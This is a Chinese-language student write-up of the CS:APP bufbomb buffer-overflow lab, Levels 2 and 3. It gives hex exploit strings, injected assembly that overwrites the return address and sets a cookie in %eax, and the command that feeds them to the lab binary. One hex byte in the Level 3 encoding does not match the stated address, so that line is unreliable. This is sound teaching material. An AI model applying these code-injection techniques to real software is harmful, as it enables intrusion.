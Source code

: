 ```shell
#b8 35 68 55会使buf开头被当作代码执行，在那里放入需要执行的代码
#将汇编代码转换为十六进制数的过程见readme.md
#level2.txt如下
8b 04 25 08 d1 04 08
89 04 25 00 d1 04 08
68 9d 8c 04 08
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b8 35 68 55
#要注意，代码执行的方向就是从低地址到高地址的
#所以先执行的代码应该放到低地址，而存入buf时前面的就是低地址
cat level2.txt|./hex2raw|./bufbomb -u h
```
## <div id="level3">9.Level 3:Dynamite(20 pts)</div>
我们之前的攻击都导致程序跳转到其他函数的代码，然后导致程序退出。因此，使用破坏堆栈的漏洞字符串来覆盖保存的值是可以接受的。最复杂的缓冲区溢出攻击形式会导致程序执行一些利用代码来更改程序的寄存器/内存状态，但会使程序返回到原始调用函数（在这种情况下为test,getbuf函数被test函数调用）。调用函数对攻击视而不见。不过，这种类型的攻击很棘手，因为您必须：1）将机器代码放到堆栈上，2）将返回指针设置为该代码的开头，3）撤消对堆栈状态的任何损坏。

此级别的工作是提供一个漏洞利用字符串，该字符串将导致getbuf将cookie返回测试，而不是值1。你可以在测试代码中看到，这将导致程序进入“Boom！”。你的攻击代码应该将你的cookie设置为返回值

### 9.1.一些建议
前面三点和8.1一样，下面这一点不一样

一旦你完成了这个级别，停下来反思一下你已经完成了什么。你让一个程序执行你自己设计的机器代码。你以一种足够隐秘的方式这样做，以至于程序没有意识到有什么不对劲。

```cpp
//解题过程
//getbuf函数是在test函数中被调用的，为了让getbuf函数返回值为cookie(修改寄存器eax的值为cookie)一定要注入代码，为了执行注入的代码一定要让getbuf的返回地址为buf的地址，为了返回test又一定要让注入的代码返回test函数中调用getbuf的下一句的地址

//level2中已经知道-u h的情况下
//buf地址为           0x556835b8


//而test函数中调用getbuf的下一句的地址
//可以直接读汇编代码得到 是0x8048dbe

//需要注入的代码如下
//在level2的bang函数中已经得知cookie值存放的地址是0x804d108
mov 0x0804d108,%eax
//上面这一行改成 mov $0x20083f2f,%eax 也行
push $0x8048dbe
ret
//翻译为16进制数
8b 04 25 08 d1 04 28
68 be 8d 04 08
c3


/*
顺便一提，汇编代码最后要留一行空行
gcc -c将此处汇编代码转换成机器码不能在mac上进行
要在docker的linux中执行
*/

//level3.txt
//注意到getbuf开头有一句 push %ebp，我们需要还原这里栈的内容
//把断点打在“函数开头”，注意不能用函数名打断点，具体见“杂项.md”

//我很长时间内认为'b 函数名'的操作会把断点打在汇编代码中函数的开头
```